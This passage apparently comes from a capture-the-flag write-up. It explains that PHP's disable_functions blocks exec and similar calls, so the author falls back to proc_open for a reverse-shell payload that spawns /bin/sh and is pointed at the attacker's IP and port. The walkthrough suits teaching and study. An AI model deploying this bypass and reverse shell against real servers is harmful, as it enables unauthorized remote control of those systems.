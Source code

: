 When this happens on PHP you might look for the disable functions. In this case, we can see that exec, shell_exec, etc, are disabled, that it is why our shell is not comming back:

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,
pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,
system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
```

We can check the [PHP documentation](https://www.php.net/manual/en/ref.exec.php) to see if there is any useful function to execute code. We see that _proc_open_ is not blocked. Let's test the following payload:


```php
http://10.10.14.41
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.41';  // CHANGE THIS
$port = 5454;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh';
$daemon = 0;
$debug = 0;


$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
  printit("ERROR: Can't spawn shell");
  exit(1);
}

?> 
```


We got the first execution correct. Due to the threading process on the original payload, we cannot demonize the rev shell process, therefore I opted for executing one command and get the shell as it is.
